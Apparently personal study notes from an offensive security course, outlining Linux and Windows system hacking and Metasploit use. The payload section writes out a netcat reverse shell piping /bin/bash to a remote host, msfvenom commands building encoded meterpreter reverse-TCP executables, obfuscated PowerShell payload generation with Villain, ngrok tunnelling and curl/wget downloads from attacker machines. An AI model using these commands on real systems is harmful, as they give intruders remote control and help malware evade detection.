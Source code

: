 - System hacking is defined as the compromise between computer systems and software to access the target computer and steal or misuse their sensitive information.
- Linux System Hacking
	- Hack Linux using the shadow file.
	- ssh key leak
	- Remote code Execution
	- privilege Escalation
	- bug on kernel
- Window system hacking
	- fundamental of window
	- DLL Hijacking
	- Powershell Scripting and usage
	- managing service, Users
	- active directory system
- Remote shell access(bind shell, reverse shell) payload
	- netcat -lvp 2222 
	- netcat 192.168.1.1 2222 -e /bin/bash
- payload (revshells.com)

- web server (whatweb http://google.com)
	- Apache server (sudo systemctl start apache2)
	- Nginx Server (sudo systemctl status nginx          sudo systemctl status nginx )
	- Python Server (python3 -m http.server 9090)
	- Microsoft IIS
	- Ruby on Rails
	- LiteSpeed
___

- CVE (Common Vulnerabilities and Exposures)
	- Common Vulnerability Scoring System (CVSS)  (0.0-10.0)
	- MITRE Corporation -----     MITRE ATT&CK Framework:
	- CVE-YEAR-ID  (CVE-2019-22321)
- ExploitDB  (offsec)     [https://exploit-db.com]     [CVE - Search CVE List (mitre.org)](https://cve.mitre.org/cve/search_cve_list.html)     SearchSploit
- Common Vulnerability Assessment Tools
	- Nessus   (https://www.tenable.com/products/nessus)
	- Acunetix
	- OpenVAS
	- Nmap with NSE
- Metasploit    (ruby)      msfconsole, msfdb, msfconsole -q  ------>search     ---->use   ----->run
	- show info,   show options
	- Msfvenom (msfvenom -l payloads)  (msfvenom -p window/meterpreter/reverse_tcp LHOST=wlan0 LPORT=2222 -f exe > top.exe)  top.elf
	- Msfconsole
	- Msfdb
- Payload  
	- window/meterpreter/reverse_tcp
	- linux/x86/meterpreter/reverse_tcp
	- OSX/x86/meterpreter/reverse_tcp
	- android/meterpreter/reverse_tcp
	- freebsd/x86/meterpreter/reverse_tcp
- Connection types
	- Reverse TCP
	- Bind TCP
	- Reverse HTTPS
	- Bind HTTPS
- payloads
	- Staged payload  (window/meterpreter/reverse_tcp)
	- Non-Staged payloads (window/meterpreter_reverse_tcp)
- msfvenom -p window/meterpreter/reverse_tcp LPORT=2222 LHOST=wlan0 -f exe -e x86/shikata_ga_nai > rtop.exe
---
- villain   (create payload powershell)
	- generate os=windows lhost=wlan0  obfuscate
	- generate os=windows lhost=wlan0  encode
	- [PowerShell to EXE converter (ps2exe.azurewebsites.net)](https://ps2exe.azurewebsites.net/)
- ngrok    https://ngrok.com/
	- TCP NGROK TCP 2222
	- HTTP  ngrok http 2222
---
- File Transfer
	- for linux    curl http://10.10.10.1:8080/file --output file
	-                   wget http://10.10.10.3:8080/file
- Pivote  from one system to another system
- Privilege Escalation
- Steganography  [steghide embed -ef top.txt -cf cat.jpeg]
-                            [steghide extract -sf  cat.jpeg]
- Keylogging  (.pyw)